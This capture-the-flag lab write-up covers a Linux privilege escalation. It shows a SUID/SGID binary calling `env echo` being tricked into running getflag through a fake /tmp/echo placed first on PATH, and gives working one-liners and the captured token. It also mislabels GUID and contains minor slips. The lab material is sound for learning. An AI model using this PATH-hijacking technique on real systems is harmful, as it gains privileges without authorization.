 #LEVEL 03
In our home directory, we have an executable with SUID (**S**et owner **U**ser **ID** up on execution) and GUID (**G**lobally **U**nique **Id**entifier) (the first s is for SETUID, and the second s is for SETGID, this means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`):
```
>$ ls -la
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
>$ ./level03
Exploit me

>$ cat level03
[..]
...O����[�/usr/bin/env echo Exploit me;0p�...
[..]
```
It looks like ./level03 is calling ``echo`` from ``usr/bin/env``, calling binary that's defined by the environment.
lets play around by substitute our own `echo` binary, which calls `getflag` with `flag03` user permissions.
let's see where the getflag is. 
```
>$ which getflag
/bin/getflag
>$ /bin/getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
Checking available folders where we can write and execute scripts with:
```
>$ ls -l /
[..]
d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp
[..]
```
we can write and execute programs in the `/tmp` folder
let's see permissions of echo program:
```
>$ ls -l /tmp/echo
-rw-rw-r-- 1 level03 level03 13 Jun  7 15:49 /tmp/echo
```
these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r`(read) and `x`(execute), 
then `getflag` is executed with the `uid` of `flag03` (li ma3ndnach).
Then, we instruct bash to look for the executable in `/tmp` first by adding *`/tmp`* at the beginning of the **$PATH** environment variable.
after that we execute the executable `./level03` :

```
>$ echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

##### OR
we can create a symbolic link of `getflag` in `/tmp` as `/tmp/echo`:
```
>$ ln -s /bin/getflag /tmp/echo
>$ env PATH="/tmp:$PATH" ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
#### Vulnerability:
Env invocation by a privileged user -> Privilege escalation by providing replacement to built-in command

#### Documentations:
1. https://www.commentcamarche.net/faq/3585-bash-la-variable-d-environnement-path
1. https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
1. https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code
1. https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my
1. https://stackoverflow.com/questions/1641477/how-to-set-environment-variable-for-everyone-under-my-linux-system
1. https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
1. https://linux.goffinet.org/administration/securite-locale/permissions-linux/
1. https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
1. https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script